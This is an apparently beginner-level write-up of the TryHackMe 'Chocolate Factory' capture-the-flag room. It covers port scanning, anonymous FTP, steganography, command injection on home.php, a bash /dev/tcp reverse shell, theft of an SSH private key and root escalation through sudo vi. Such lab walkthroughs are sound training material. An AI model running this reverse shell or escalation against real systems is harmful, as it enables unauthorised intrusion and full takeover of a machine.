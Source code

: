 # [Chocolate Factory][1]

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC <IP>`

Woah! A lot of open ports. Willy Wonka, I thought you have shy personality :wink:

Scanning for version tells they are just some TCP Ports.

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.150.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey:
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_http-title: Site doesn't have a title (text/html).
100/tcp open  newacct?
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
|_auth-owners: ERROR: Script execution failed (use -d to debug)
106/tcp open  pop3pw?
```

Looks like we have three important ports open: `21, 22, 80`.

FTP Anonymous Login is available. Let's login and get the file mentioned under Nmap scan. To login - `ftp <IP>`. Username: `anonymous` and password is `anonymous` as well.

![FTP Login](images/ftp_login.png)

> To get the `gum_room.jpg`, type `get gum_room.jpg`.

![Get File](images/get_ftp_file.png)

> If you view the file, you won't find anything. Let's try Steganography. CMD - `steghide extract -sf gum_room.jpg`. When ask for password, press enter.

```
┌──(calmstorm㉿hackhunt)-[~]
└─$ steghide extract -sf gum_room.jpg                    
Enter passphrase:
wrote extracted data to "b64.txt".
```

Found a file `b64.txt`. Looks like Base64 ecoding. Let's decode it. CMD -> `base64 -d b64.txt > decoded_data.txt`

Important content from `decoded_data.txt`

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

> Looks like password file. Found a username `charlie`.

Let's work on the Website now. It seems like a login page.

![Website](images/login_page.png)

Checking the source code...

![Source Code](images/source_code.png)
> Found `Validate.php`. May help us bypass login, if we can understand how it is working.

Contents for validate.php -> `<script>alert('Incorrect Credentials');</script><script>window.location='index.html'</script>`.

Looks like half a code or No checks, just show invalid Credentials, huh!

Looking for any directories using `gobuster`. CMD -> `gobuster dir -u http://<IP> -w <wordlist> -x php,html`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.145.71
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/05/23 12:28:48 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/home.php             (Status: 200) [Size: 569]
/index.html           (Status: 200) [Size: 1466]
/index.html           (Status: 200) [Size: 1466]
/server-status        (Status: 403) [Size: 277]
===============================================================
2022/05/23 12:32:40 Finished
===============================================================
```

Checking `home.php`. Oh, found command injection.

![HOME PHP](images/home_php.png)
> Tried `ls` command and got few results.

```
home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php
```

*key_rev_key* seems interesting. Let's check the file `http://<IP>/key_rev_key`. Download the file. Tried -> `cat key_rev_key`

File looks like binary. If you go through the file you will find the part **Enter your name** and a ***key***.

Let's try to get Reverse Shell using Command Injection.
- Get your TryHackMe's IP.
- Start netcat. CMD -> `nc -lvnp 4444`
- Inject the command on website. CMD -> `bash -c 'exec bash -i &> /dev/tcp/<IP>/4444 <&1'`

![Got Access](images/got_access.png)

> Check the `validate.php` now. We got the password.

![Validate.php](images/real_validate.php.png)

> Looking around, found SSH Private key under `/home/charlie`, filename `teleport`.


![Files Found](images/files_found.png)
> Access denied to *user.txt*.

```
cd /home/charlie
cat teleport
```

Copy the content of the teleport and save in your machine. Saved it as `charlie_id_rsa`.

To use, we need to give the correct permissions - `chmod 600 charlie_id_rsa`.

To connect, `ssh -i charlie_id_rsa charlie@<IP>`. Without password we were able to connect.

Let's try to read `user.txt`. CMD -> `cat /home/charlie/user.txt`.

For privilege escalation, let check if we can run something as admin using the command `sudo -l`.

![SUID](images/sudo_l.png)
> We have permission to run `vi`.

Check privilege escalation via `vi` on [GTFOBins][3]. Under **sudo** you will find a command -> `sudo vi -c ':!/bin/sh' /dev/null`

Enter the command and BAAM! ***ROOT ACCESS***.

![ROOT ACCESS](images/root_access.png)

Check for root flag in `/root` directory. Seems like python file. `cat root.py`.

Um! Need a Key. What about the key we got in `rev_key_rev`?!

![ROOT FLAG](images/root_flag.png)


[1]: https://tryhackme.com/room/chocolatefactory
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://gtfobins.github.io/gtfobins/vi/#sudo
